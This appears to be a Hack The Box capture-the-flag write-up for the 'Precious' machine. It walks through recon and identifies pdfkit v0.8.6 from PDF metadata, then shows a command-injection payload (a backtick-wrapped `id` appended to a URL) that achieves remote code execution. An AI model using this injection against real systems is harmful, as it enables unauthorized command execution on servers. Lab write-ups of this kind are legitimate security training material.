First of all we check that we have connection with IP target.



This TTL value on HTB indicates that is a Linux machine.

We will start with our usual Nmap scan and find two ports open. We find OpenSSH on port 22 and port 80 http.
```bash
$ sudo nmap -F -sC -sV -A -oX nmap.xml 10.10.11.189
$ xsltproc nmap.xml -o nmap.html
```
-F → Scans fewer ports than the default: it scans the set of "top" ports from nmap-services (roughly the top 100 most common ports).

-sC → Run the default NSE (Nmap Scripting Engine) scripts against the target(s).

-sV → Service/version detection.

-A → Performs OS Detection Scan to determinate the OS of the target.

-oX → Output option: write results in XML format to file nmap.xml.  Other formats: -oN (normal), -oG (grepable), -oA (all formats).





In this scan, we can see that the port 80 redirect us to http://precious.htb/ so to access the website, we must add the domain name to our /etc/hosts file to resolve the connection with the IP address.



Now we can navigate to the website in our browser



To see the technologies that works in this webpage we use
```bash
$ whatweb http://precious.htb
```



With Wappalyzer app we can find additional information about the technologies



We don't see any interesting, so to try this conversor. Since the laboratory does not have an internet connection, I cannot test the Google URL, so we set up a server locally.
```bash
$ python3 -m http.server 80
```



So we can try to intruduce our personal IP to see what happend.
```bash
$ ip a
```





In our web server, we get a GET



And we get a PDF with our directory



We analyse the document's Exif metadata using exiftool for any potential clues as to what is happening on the backend.
```bash
$ exiftool ugm6z70p8nzmquerba0tek9jtb6ank05.pdf
```



The Creator tag is set to pdfkit v0.8.6 , indicating that this is the library generating the files. A quick search for the name and version we found that this versions have a command injection vulnerability


https://github.com/pdfkit/pdfkit
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Subsequently a related security advisory, which includes useful references, among them a PoC. The vulnerability arises when the implementation of the library allows user access to query string parameters, as code can then be injected by using a shell command substitution string.
Seeing as it is very likely that the URL we provide is passed through that library, we try the payload from the article:

‘Note: Remember that for the URL to resolve the local server it has to still be alive’
```bash
http://10.10.14.69/%20`id`
```


And we got in our web server



We successfully receive a callback on our HTTP server, verifying that we have RCE on the target machine.


[Back](README.md)